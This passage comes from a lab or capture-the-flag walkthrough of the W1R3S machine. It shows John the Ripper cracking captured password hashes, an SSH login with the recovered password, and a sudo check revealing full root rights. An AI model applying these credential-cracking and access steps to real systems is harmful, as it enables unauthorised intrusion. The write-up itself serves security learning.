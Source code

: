 That was a lucky break! I put the hashes for root and w1r3s in a file to be cracked by John the Ripper and immediately got a password:

```
john hashes.txt
Created directory: /root/.john
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (w1r3s)
```

With this, I could SSH in.

```
ssh w1r3s@192.168.145.134
The authenticity of host '192.168.145.134 (192.168.145.134)' can't be established.
ECDSA key fingerprint is SHA256:/3N0PzPMqtXlj9QWJFMbCufh2W95JylZ/oF82NkAAto.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.145.134' (ECDSA) to the list of known hosts.
----------------------
Think this is the way?
----------------------
Well,........possibly.
----------------------
w1r3s@192.168.145.134's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

227 packages can be updated.
11 updates are security updates.

*** System restart required ***
.....You made it huh?....
Last login: Mon Jan 22 22:47:27 2018 from 192.168.0.35
```

One of the things I picked up from watching [Ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) videos was to check the sudo privileges early on:

```
sudo -l
sudo: unable to resolve host W1R3S
[sudo] password for w1r3s:
Matching Defaults entries for w1r3s on W1R3S:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User w1r3s may run the following commands on W1R3S:
    (ALL : ALL) ALL
```
